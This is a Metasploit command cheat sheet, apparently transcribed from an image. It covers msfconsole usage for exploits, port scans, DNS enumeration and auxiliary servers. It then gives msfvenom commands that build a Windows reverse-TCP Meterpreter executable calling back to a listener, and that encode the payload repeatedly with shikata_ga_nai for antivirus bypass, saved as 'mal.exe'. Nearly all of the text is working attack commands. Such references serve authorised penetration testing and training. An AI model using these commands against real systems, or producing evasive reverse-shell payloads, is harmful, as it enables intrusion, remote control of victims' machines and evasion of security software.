 # Metasploit
msf > search [regex]
msf > use exploit/[ExploitPath]
msf > set PAYLOAD [PayloadPath]
msf > show options
msf > set [Option] [Value]
msf > exploit 
#Useful Auxiliary Module
msf > use auxiliary/scanner/portscan/tcp
msf > set RHOSTS 10.10.10.0/24
msf > run
# DNS Enumeration:
msf > use auxiliary/gather/dns_enum
msf > set DOMAIN target.tgt
msf > run
#FTP Server:
msf > use auxiliary/server/ftp
msf > set FTPROOT /tmp/ftproot
msf > run
#Proxy Server:
msf > use auxiliary/server/socks4
msf > run 
#msfvenom
$ msfvenom –p [PayloadPath]
–f [FormatType]
LHOST=[LocalHost (if reverse conn.)]
LPORT=[LocalPort]
#Example :

Reverse Meterpreter payload as an executable and redirected into a file:

$ msfvenom -p windows/meterpreter/
reverse_tcp -f exe LHOST=10.1.1.1
LPORT=4444 > met.exe
Format Options (specified with –f) --help-formats – List available output formats

exe – Executable pl – Perl rb – Ruby raw – Raw shellcode c – C code

Encoding Payloads with msfvenom

The msfvenom tool can be used to apply a level of encoding for anti-virus bypass. Run with '-l encoders' to get a list of encoders.#
$ msfvenom -p [Payload] -e [Encoder] -f
[FormatType] -i [EncodeInterations]
LHOST=[LocalHost (if reverse conn.)]
LPORT=[LocalPort]
# Example

Encode a payload from msfpayload 5 times using shikata-ga-nai encoder and output as executable:

$ msfvenom -p windows/meterpreter/
reverse_tcp -i 5 -e x86/shikata_ga_nai -f
exe LHOST=10.1.1.1 LPORT=4444 > mal.exe
